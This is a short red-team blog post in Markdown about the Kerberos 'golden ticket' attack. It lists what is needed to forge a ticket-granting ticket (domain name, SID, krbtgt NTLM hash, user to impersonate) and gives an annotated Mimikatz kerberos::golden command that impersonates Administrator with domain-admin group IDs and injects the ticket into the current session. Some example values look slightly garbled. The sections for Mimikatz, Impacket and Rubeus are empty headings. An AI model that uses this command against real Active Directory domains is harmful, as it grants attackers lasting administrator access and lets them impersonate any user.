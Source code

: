 ```---
title:  "Kerberos attacks 4-golden Ticket "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 4-golden Ticket"
categories:
  - Red-Teaming
toc: true
---

## golden Ticket
<img src="/img/golden/sid.PNG" alt="Getting-gz" width="800" height="150"> 

## Forging Kerberos Tickets

##  requirements for forging TG
  Domain Name
SID
Domain KRBTGT Account NTLM password hash
Impersonate user
```
kerberos::golden  ## Name of the module  
/user:Administrator  ## username of which the TGT is generated
/domain:karim.net  ## Domain 
/sid:5-1-5-21-268341927-4156871508- 1792461683  ## SID of the domain 
/krbtgt:a9b30e5bOdc865eadcea9411e4ade72d   NTLM (RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys. 
/id:500 /groups:512 Optional User RID (default 500) and Group default 513 512 520 518 519)
/ptt  ## Injects the ticket in current PowerShell process ,no need to save the ticket on disk 
/startoffset:0  ##Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future. 
/endin:600  ##Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes 
/renewmax:10080  ##Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 
```
## golden ticket with Mimikatz
## golden ticket with Impacket
## golden ticket with Rubeus.exe

